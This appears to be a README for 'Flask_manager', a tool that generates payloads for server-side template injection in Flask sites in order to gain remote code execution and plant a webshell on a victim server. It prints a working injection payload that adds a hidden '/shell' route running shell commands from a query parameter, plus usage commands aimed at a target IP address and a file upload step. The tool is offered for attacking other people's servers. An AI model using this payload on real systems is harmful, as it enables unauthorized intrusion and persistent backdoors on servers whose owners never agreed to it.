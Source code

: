# Flask_manager

If you know a website  based on Flask framework, which is SSTI vulnerable then, this tool will help you to generate a Flask memory horse payload for exploiting SSTI (Server-Side Template Injection) and gaining RCE (Remote Code Execution). And also it will help you to get the Webshell on the victim server. 

## Required operating environment
python3.x

## About

This tool can generate payload :

```
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```



## Usage

| Command                     | Description    |
| :-------------------------- | -------------- |
| flask_manager --help        | Help           |
| flask_manager --url x.x.x.x | Target connect |



## Examples

* Start the tool

```bash
python flask_manager --url 192.168.225.149
```

* Upload file

```
upload
```
